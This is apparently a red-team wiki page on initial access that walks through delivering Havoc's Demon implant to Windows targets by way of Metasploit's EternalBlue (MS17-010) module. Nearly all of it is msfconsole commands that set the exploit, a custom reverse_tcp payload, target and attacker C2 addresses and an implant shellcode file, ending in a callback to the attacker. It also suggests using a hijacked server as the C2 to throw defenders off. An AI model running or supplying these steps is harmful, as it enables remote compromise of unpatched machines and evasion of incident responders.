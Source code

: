 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - havoc
  - windows
credits:
  - p4p1
---
```

# Havoc

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

Unlike [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Outdated Software/Cobalt Strike|cobalt strike]] exploitation setup. This particular payload type only requires a custom generated implant in this case **Havoc's Demon Agent**. We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. The best part about this is you can simply set the custom implant and use any SSH server (or hijacked server) as the only indicator of compromise that the defenders will look at the traces.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <attacker_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport <attacker_PORT>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set shellcode_file /local/path/to/demon.x64.bin
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

---
## References

### p4p1

- [p4p1: Extending Havoc payloads through metasploit](https://leosmith.wtf/blog/metasploit-and-havoc.html)